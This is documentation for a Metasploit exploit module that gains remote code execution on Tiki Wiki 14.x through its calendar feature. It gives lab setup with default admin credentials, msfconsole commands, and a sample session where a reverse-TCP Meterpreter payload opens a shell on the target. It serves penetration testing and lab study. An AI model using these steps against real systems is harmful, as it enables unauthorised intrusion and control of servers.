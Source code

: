 ## Vulnerable Application

  Official Source: [sourceforge](https://sourceforge.net/projects/tikiwiki/files/Tiki_14.x_Peony/14.1/)
  Exploit-db: [edb](https://www.exploit-db.com/apps/2fa84367ba4f14afab9f51cd3e93606d-tiki-14.2.7z)
  Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

### Creating A Testing Environment

  1. Create a fresh Ubuntu 16.04 w/ a LAMP install
  2. `apt-get install php-xml`
  3. Normal php install at that point!
  4. After install, login as admin:admin
  5. Go to the Control Panels
  6. Click Features
  7. Enable Calendar under Main feature
  8. Click Apply

#### Permissions

  If you wish to enable the non-logged in user (anonymous) to view/exploit the calendar
  1. Log in as admin
  2. From the top dropdown select permissions
  3. Check Anonymous near the top
  4. Click Assign

## Verification Steps

  1. Install the software as documented above
  2. Start msfconsole
  3. Do: `use exploit/linux/http/tiki_calendar_exec`
  4. Do: `set rhost 10.10.10.10`
  5. (optional, if not set, set username to empty) Do: `set PASSWORD admin`
  6. Do: `set payload php/bind_perl`
  7. Do: `check`
  ```
    [+] 10.10.10.10:80 The target is vulnerable.
  ```
  7. Do: `exploit`
  8. You should get a shell

## Options

  **PASSWORD**

  Password is set at first login. Default for admin is 'admin'.

## Scenarios

  Example of running the ID command
  ```
    msf > use exploit/linux/http/tiki_calendar_exec
    msf exploit(tiki_calendar_exec) > set rhost 192.168.2.190
    rhost => 192.168.2.190
    msf exploit(tiki_calendar_exec) > set targeturi /t14_1/
    targeturi => /t14_1/
    msf exploit(tiki_calendar_exec) > set payload php/meterpreter/reverse_tcp
    payload => php/meterpreter/reverse_tcp
    msf exploit(tiki_calendar_exec) > set lhost 192.168.2.229
    lhost => 192.168.2.229
    msf exploit(tiki_calendar_exec) > set verbose true
    verbose => true
    msf exploit(tiki_calendar_exec) > set username ''
    username => 
    msf exploit(tiki_calendar_exec) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.229:4444 
    [*] Sending malicious calendar view packet
    [*] Sending stage (33721 bytes) to 192.168.2.190
    [*] Meterpreter session 1 opened (192.168.2.229:4444 -> 192.168.2.190:48172) at 2016-06-18 10:58:19 -0400
    
    meterpreter > sysinfo
    Computer    : tikiwiki
    OS          : Linux tikiwiki 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64
    Meterpreter : php/php
    meterpreter > 
  ```
